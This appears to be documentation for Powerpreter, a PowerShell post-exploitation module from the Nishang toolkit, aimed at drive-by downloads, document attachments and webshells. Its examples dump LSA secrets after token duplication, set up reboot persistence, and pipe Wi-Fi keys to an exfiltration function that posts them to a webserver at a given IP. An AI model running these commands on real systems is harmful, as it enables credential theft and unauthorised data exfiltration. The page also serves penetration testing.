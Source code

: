#####Powerpreter is a script module which makes it useful in scenarios like drive-by-download, document attachments, webshells etc. where one may like to pull all the functionality in Nishang in a single file or where deployment is not easy to do. Powerpreter has persistence capabilities too. See examples for help in using it.

#####Examples

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS> Get-Command -Module powerpreter

The first command imports the module in current powershell session. Ignore the Unapproved verbs warning.

The second command lists all the functions available with powerpreter.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Enable-DuplicateToken; Get-LSASecret

Use above command to import powerpreter in current powershell session and execute the two functions.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Persistence

Use above for reboot persistence

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS > Get-WLAN-Keys | Do-Exfiltration -ExfilOption Webserver -URL http://192.168.254.183/catchpost.php

Use above for exfiltration to a webserver which logs POST requests.
